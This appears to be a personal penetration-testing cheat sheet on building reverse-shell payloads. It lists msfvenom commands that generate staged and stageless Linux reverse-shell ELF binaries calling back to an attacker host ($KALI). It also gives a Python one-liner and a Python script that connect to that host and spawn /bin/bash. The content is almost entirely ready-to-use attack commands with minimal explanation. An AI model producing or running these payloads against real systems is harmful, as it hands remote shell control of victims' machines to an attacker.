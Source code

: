 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

## MSFVenom 

Staged - Sends payload in stages, can be less stable.
	windows/meterpreter/reverse_tcp
	
Stageless - Sends exploit shellcode all at once, larger in size, won't always work.
	windows/meterpreter_reverse_tcp

#### Staged Payloads - WILL NOT WORK WITH NC!
```bash - kali
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse86.elf
```

```bash - kali
msfvenom -p linux/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse64.elf
```

#### Stageless Payloads
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse86.elf
```

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse64.elf
```

#### Python
```bash - kali
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

#### Python file root execute
```bash - target
which bash
```

```python - target
#!/usr/bin/env python
import socket, os, pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",8003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```




